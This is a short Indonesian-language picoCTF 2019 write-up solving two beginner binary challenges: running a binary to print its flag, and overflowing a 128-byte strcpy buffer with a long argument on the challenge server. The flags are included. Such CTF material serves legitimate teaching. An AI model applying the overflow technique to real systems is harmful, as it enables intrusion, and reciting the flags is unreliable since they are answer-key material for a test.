# Binary Exploitation

## Penulis: [ahm4ddm](https://github.com/ahm4ddm)
## Daftar Isi:

| Binary Exploitation  |
| ------------- |
| [pratice-run-1](#1-practice-run--1-50)|
| [OverFlow-0](#2-OverFlow-0-100)|


---
## 1. pratice-run-1 (50)

### Soal:
You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this [program](https://2019shell1.picoctf.com/static/6eba3b66e7a2b786c6c9769711d85663/run_this) to receive a flag.
    
### Pembahasan:
Pertama, kita analisis dulu jenis filenya menggunakan perintah *file*
```
$file run_this
run_this: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=49eb1de81288cfa7d67445c1b3c79ecbdf91a359, not stripped

```
hint dari soal yaitu jalankan program.
```
$./run_this
bash: ./run_this: Permission denied
```
ganti hak akses dengan perintah 
```
$chmod +x run_this

```
lalu jalankan program. flag akan tampil.
```
$./run_this
picoCTF{g3t_r3adY_2_r3v3r53}
```
Sebenarnya ada cara lain yaitu dengan perintah *strings* dimana dengan perintah itu akan menampilkan seluruh strings yang ada di program.
```
$strings run_this
...
...
picoCTF{g3t_r3adY_2_r3v3r53}
...
...

```
<details>
	<summary>Flagnya</summary>

	picoCTF{g3t_r3adY_2_r3v3r53}

</details>  

## 2. OverFlow 0 (100)

### Soal:
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln) and get a flag. Its also found in /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6 on the shell server. [Source](https://2019shell1.picoctf.com/static/2d0dd1f54c7e90ca426daa027152b01d/vuln.c).

### Penyelesaian:
kita download source code dulu. setelah dianalisis program meminta inputan dari kita. serta program ukuran 32bit.

yang menarik dari source code adalah
```
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

```
panjang array char buf didefinisikan sebagai 128, jadi jika didalam memori sebesar 128 byte. disini terdapat bug yaitu *strcpy* dimana bug itu tidak mengecek ukuran array, maka bisa terjadi overflow. dalam kasus ini kita bisa melakukan overflow untuk mendapatkan flag.
kita buat inputan sebanyak 129 + 4 = 133.   
kenapa ditambah 4? karena programnya 32bit.
kita login di shell [picoctf](https://2019webshell1.picoctf.com)
```
ahm4d@pico-2019-shell1:~$ cd /problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ls -la
total 92
drwxr-xr-x   2 root       root          4096 Sep 28  2019 .
drwxr-x--x 684 root       root         69632 Oct 10  2019 ..
-r--r-----   1 hacksports overflow-0_5    27 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports overflow-0_5  7644 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports     814 Sep 28  2019 vuln.c
ahm4d@pico-2019-shell1:/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6$ ./vuln aaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabi
picoCTF{3asY_P3a5y4a888b8e}
```
<details>
	<summary>Flagnya</summary>

	picoCTF{3asY_P3a5y4a888b8e}

</details>  

